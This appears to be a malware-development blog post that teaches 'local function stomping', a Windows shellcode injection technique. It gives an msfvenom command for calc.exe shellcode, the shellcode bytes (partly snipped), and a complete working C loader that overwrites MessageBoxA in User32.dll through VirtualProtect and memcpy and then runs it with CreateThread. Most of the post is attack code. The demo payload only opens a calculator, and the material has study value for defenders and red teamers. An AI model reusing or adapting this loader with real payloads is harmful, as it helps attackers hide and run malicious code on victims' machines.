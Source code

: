 ```yaml
---
layout: post
title: "Local Function Stomping Injection"
date: 2024-07-29 13:47:00 +0000
tags: [Malware Development]
categories: [Malware Development]
---
```



<!-- # Local Function Stomping Injection  -->

Function Stomping
-------

Function stomping typically refers to overwriting the code or data of a function with different content in its memory space. This can be done to modify the behavior of the function to run as intended by the programmer.

for our purpose of stomping, we will use [MessageBoxA](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-messageboxa) which would be a better choice because this function is not widely used by operating system or other services. As per Microsoft Documentation MessageBoxA is exported using User32.dll

Firstly, we use msfvenom to create our calc shellcode, which we’ll use to overwrite the memory of messageboxA.

`msfvenom -p windows/x64/exec CMD=calc.exe -f c`

```
char shellcode[] = 
	{ 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50
,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52
,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a
,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41
-------------------<snip> ---------------------------
,0x6f,0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd
,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0
,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff
,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00 };
SIZE_T szshellcode= sizeof(shellcode);
```


After defining an array for the shellcode, our next step is to obtain the address of MessageBoxA. To do this, we begin by loading User32.dll using the [LoadLibraryA](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya) function.

```c
HMODULE hmodule = LoadLibraryA("User32.dll");
```


After obtaining the handle to our DLL, we can use [GetProcAddress](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress) to fetch the address of our exported function.

```c
FARPROC Paddress = GetProcAddress(hmodule, "MessageBoxA");
```

![user32_messageboxa](/assets/img/local_function_stomping/user32_messageboxa.webp)

![textsection_permsission](/assets/img/local_function_stomping/textsection_permission.webp)

Once we have obtained the address of our target function, we need to adjust the permissions to allow writing to that memory page. This is necessary because MessageBoxA resides in the .text section of user32.dll, where memory permissions are typically set to Execute Read Only.

To enable writing to that address, we can adjust the page protection using the [VirtualProtect](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect) function with the PAGE\_READWRITE protection.

```c
if (!VirtualProtect(Paddress, szshellcode, PAGE_READWRITE, &oldprotection)) {
					printf(" virtualprotect failed with errorno %d\\n", GetLastError());
}
```


After successfully changing the permissions to ReadWrite, we can then copy our shellcode, generated from msfvenom, to the address of MessageBoxA simply by using memcpy

```c
memcpy(Paddress, shellcode, szshellcode);
```


Now, we can revert the page permissions back to their original state, which was Execute Read, using VirtualProtect.

```c
VirtualProtect(Paddress, szshellcode, PAGE_EXECUTE_READ, &oldprotection);
```


Afterwards, we can use the [CreateThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread) function to create a new thread that calls the MessageBoxA function, which in turn executes our calc shellcode

```c
CreateThread(NULL, NULL, Paddress, NULL, NULL, NULL);
```


The complete code appears as follows:

```c
    #include <stdio.h>
    #include <stdlib.h>
    #include <Windows.h>
    BOOL stomper(FARPROC Paddress, char* shellcode, SIZE_T szshellcode) {
    DWORD oldprotection = NULL;
    //changing page permission
    if (!VirtualProtect(Paddress, szshellcode, PAGE_READWRITE, &oldprotection)) {
    printf("virtualprotect ReadWrite failed with errorno %d\\n", GetLastError());
    return FALSE;
    }
    //copy shellcode to stomping function address (MessageboxA)
    memcpy(Paddress, shellcode, szshellcode);
    //changing page permission to original
    if (!VirtualProtect(Paddress, szshellcode, PAGE_EXECUTE_READ, &oldprotection)) {
    printf("virtualprotect Execute_Read failed with errorno %d\\n", GetLastError());
    return FALSE;
    }
    return TRUE;
    }
    int main() {
    FARPROC Paddress;
    HMODULE hmodule;
    char shellcode[] = { 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50
    ,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52
    -------------------<snip>------------------------
    ,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0
    ,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff
    ,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00 };
    hmodule = LoadLibraryA("User32.dll");
    if (hmodule == NULL) {
    printf("cannot get handlue to the module\\n");
    goto end;
    }
    Paddress = GetProcAddress(hmodule, "MessageBoxA");
    if (Paddress == NULL) {
    printf("cannot get handle to MessageBoxA\\n");
    goto end;
    }
    printf("The address of MessageboxA is 0x%p\\n", Paddress);
    if (stomper(Paddress, shellcode, sizeof(shellcode))) {
    printf("Shellcode successfully injected.\\n");
    }
    else {
    printf("Shellcode injection failed.\\n");
    goto end;
    }
    //create a thread to execute calc shellcode
    HANDLE hThread = CreateThread(NULL, NULL, Paddress, NULL, NULL, NULL);
    if (hThread == NULL) {
    printf("CreateThread failed with error %d\\n", GetLastError());
    goto end;
    }
    end:
    printf("Press Enter to exit: ");
    getchar();
    }
```


EXECUTION
----------

Getting address of MessageBoxA.

![address_messageboxa](/assets/img/local_function_stomping/address_messageboxA.webp)

Before changing the permission of the page where messageboxA lies i.e. on .text section.

![before_permission](/assets/img/local_function_stomping/before_permission.webp)

After changing the page permission to Read write.

![after_permission](/assets/img/local_function_stomping/after_permission.webp)

Before overwriting the messageboxA with shellcode

![before_overwriting](/assets/img/local_function_stomping/before_writing.webp)

After writing the shellcode

![after_overwriting](/assets/img/local_function_stomping/after_writing.webp)

Completing the Execution

![completing](/assets/img/local_function_stomping/completing.webp)

<!-- **References:**

[LoadLibraryA function (libloaderapi.h) — Win32 apps | Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)

[VirtualProtect function (memoryapi.h) — Win32 apps | Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect)

[Function Stomping Injection | Hacking (gitbook.io)](https://sergio-f20-notes.gitbook.io/hacking/4.-exploitation/payloads-file-transfer-coding-maldev-exploitdev/windows-maldev/function-stomping-injection)

[MessageBoxA function (winuser.h) — Win32 apps | Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-messageboxa#remarks)

[GetProcAddress function (libloaderapi.h) — Win32 apps | Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress) -->